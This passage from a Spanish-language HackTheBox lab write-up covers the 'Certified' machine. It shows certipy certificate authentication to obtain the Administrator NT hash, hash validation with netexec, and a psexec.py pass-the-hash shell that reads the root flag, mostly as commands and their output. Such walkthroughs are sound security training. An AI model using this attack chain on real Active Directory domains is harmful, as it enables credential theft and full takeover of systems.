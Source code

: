 Volver a ejecutar si primeramente obtenemos un error como este
`[-] Got error: The NETBIOS connection with the remote host timed out.`
`[-] Use -debug to print a stacktrace`
{: .notice--warning}


## PassTheCertificate - `Administrator`

Usaremos el certificado que acabamos de generar para autenticarnos frente al KDC como el usuario `Administrator`, quizá necesitemos sincronizar el reloj con el Domain Controller

~~~ bash
# Sincronizar el reloj con la máquina
ntpdate 10.10.11.41

# Rápidamente nos intentamos autenticar
certipy auth -pfx administrator.pfx -domain certified.htb                                                                          
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b...:0d5b...
~~~

Puede que este comando tengas que ejecutarlo varias veces al intentar hacer la solicitud, fíjate que la máquina resuelva `certified.htb` a la IP de la máquina víctima, alternativamente puedes usar el parámetro `-dc-ip 10.10.11.41`
{: .notice-warning}

Obtendremos el hash NTLM del usuario `Administrator`. Validaremos este hash con la herramienta `netexec`

~~~ bash
nxc smb 10.10.11.41 -u 'administrator' -H ':0d5b...'
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\administrator:0d5b... (Pwn3d!)
~~~

En este punto ya podemos meternos hasta la cocina con `psexec.py` y ver la flag del sistema

~~~ bash
psexec.py certified.htb/Administrator@10.10.11.41 -hashes :0d5b...        
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.11.41.....
[*] Found writable share ADMIN$
[*] Uploading file kSCgZCYD.exe
[*] Opening SVCManager on 10.10.11.41.....
[*] Creating service CzJS on 10.10.11.41.....
[*] Starting service CzJS.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Users\Administrator 

C:\Users\Administrator> type Desktop\root.txt       
55b...
~~~
